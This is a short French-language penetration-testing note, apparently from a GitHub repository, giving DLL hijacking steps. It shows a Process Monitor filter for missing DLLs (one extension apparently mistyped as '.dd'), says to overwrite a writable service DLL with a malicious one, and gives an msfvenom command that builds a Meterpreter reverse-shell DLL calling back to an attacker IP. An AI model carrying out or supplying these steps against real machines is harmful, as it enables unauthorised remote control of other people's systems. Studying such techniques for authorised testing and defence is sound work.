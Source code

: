 # DLL Hijacking

Avoir un access RDP sur la machine cible

- Utiliser `Process Monitor` en tant que admin
	- Filter: 

```sh
Result | is 		| NAME NOT FOUND | Include -> Add
Path   | ends with 	| .dd 			 | Include -> Add
```

- Verifier si les chemins (Path) du service sont accecibles en ecriture
- Si c'est le cas il faut ecraser la DLL avec la notre malveiante

```sh
msfvenom -p windows/meterpreter_reverse_tcp LPORT=9001 LHOST=<ATTACKER_IP> -f dll -o rshell.dll
```